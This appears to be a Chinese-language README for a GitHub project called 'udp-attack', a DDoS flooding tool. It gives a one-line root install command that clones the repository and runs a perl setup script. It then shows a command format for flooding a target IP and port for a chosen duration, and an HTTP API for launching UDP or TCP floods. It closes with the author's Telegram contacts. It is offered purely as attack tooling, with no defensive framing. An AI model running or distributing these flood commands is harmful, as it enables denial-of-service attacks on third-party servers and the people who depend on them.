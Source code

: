 # udp-attack 一个简单的udp攻击程序
# 版本：1.0
# 发布时间：2020/02/06
<p>安装所需：</p>
<li>一台能发包的VPS</li>
<li>Centos 7.x系统</li>
<br>
现在开始安装，，，
<br>
<pre>cd /root && yum install -y git wget curl net-tools && git clone https://github.com/KLDGodY/udp-attack.git && cd udp-attack && mv ./* ../ && cd ../ && perl setup.pl</pre>
<blockquote>如果显示perl没有安装，，请自行到网上找教程，，，</blockquote>
安装过程中如果问你要不要安装某些东西，按y同意
<br>
等待安装好后，，就可以开始攻击力，，
命令格式：<pre>perl /root/ssyn.pl 要攻击的IP 端口 每秒发送数据包(bytes) 持续攻击秒数</pre>
当然你也可以用api攻击，地址是<pre>http://你的服务器地址/api.php?key=系统密码&host=[host]&port=[port]&time=[time]&method=[method]</pre>
说一下，method有3种模式，分别是udp，tcp，和stop，，
我的tg：<a href="//t.me/KLDGodY">@KLDGodY</a><br>
tg水群：<a href="//t.me/kldgodynb">@kldgodynb</a><br>欢迎各位dl加入，，，
